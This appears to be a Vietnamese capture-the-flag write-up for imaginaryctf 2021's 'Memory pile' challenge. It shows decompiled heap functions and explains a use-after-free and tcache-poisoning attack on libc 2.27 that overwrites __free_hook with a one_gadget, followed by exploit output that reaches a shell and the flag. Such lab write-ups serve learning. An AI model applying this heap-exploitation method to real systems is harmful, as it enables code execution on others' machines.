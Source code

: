 <h1>Writeup imaginaryctf 2021</h1>
<h1>Author: dV</h1>
<h2>Challenge Name: Memory pile</h2>
<h3>Phân tích file</h3>
   <h4>Các cơ chế 
  
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  './'

Tất cả các cơ chế đều bật
  <h3>Reversing file</h3>
  Chương trình có 3 chức năng chính
    <h4> 
      
    *acquire()   
    {
    int v0; // ebx
    void *v1; // rcx
    _QWORD *result; // rax

    v0 = read();
    v1 = malloc(0x20uLL);
    result = mem;
    mem[v0] = v1;
    return result;
    }
    malloc cho ta 1 size cố định là 0x20.
      
    fill()
    {
      int v1; // [rsp+Ch] [rbp-4h]
      v1 = read();
      printf("Let me have it, boss > ");
      return __isoc99_scanf("%31s", mem[v1]);
    }
    Nhập input cho index
    release()
    {
      int v0; // eax
      v0 = read();
      free((void *)mem[v0]);
    }
    free nhưng không set con trỏ về null nên có bug use after free.
    printf("Welcome. I'll keep it simple.\nI'll even give you a present, if you manage to unwrap it...\n%p\n", &printf);
    Hàm main cho ta địa chỉ của printf nên ta không cần phải leak, từ địa chỉ trên tính được libc_base và one_gadget.
    
Với libc đề cho sẵn là libc-2.27.so, ở phiên bản này tcache sẽ không check lỗi double free nên ta sẽ dùng lỗi này để ghi đè __free_hook thành one_gadget.
Ta sẽ malloc rồi free sau đó dùng bug UAF để edit fd thành địa chỉ của __free_hook, lúc này trong tcache bin sẽ là: [0] -> __free_hook, tiếp đến ta malloc sẽ lấy [0] trong bin ra, sau đó malloc thêm 1 lần nữa thì lần này sẽ là địa chỉ của __free_hook được malloc, cuối cùng ta chỉ cần edit với địa chỉ one_gadget là ghi đè thành công. Gọi free và get shell.
      <h4>
        
      [+] Opening connection to chal.imaginaryctf.org on port 42007: Done
      [*] '/mnt/c/Users/ADMIN/Desktop/ctf/imageCTF/Memory pile/memory_pile'
          Arch:     amd64-64-little
          RELRO:    Full RELRO
          Stack:    Canary found
          NX:       NX enabled
          PIE:      PIE enabled
          RUNPATH:  './'
      [*] '/mnt/c/Users/ADMIN/Desktop/ctf/imageCTF/Memory pile/libc-2.27.so'
          Arch:     amd64-64-little
          RELRO:    Partial RELRO
          Stack:    Canary found
          NX:       NX enabled
          PIE:      PIE enabled
      Base:  0x7f883039b000
      free_hook:  0x7f88307888e8
      One:  0x7f88303ea3c2
      Done
      [*] Switching to interactive mode
      $ cat flag.txt
      ictf{hemlock_for_the_tcache}
      $
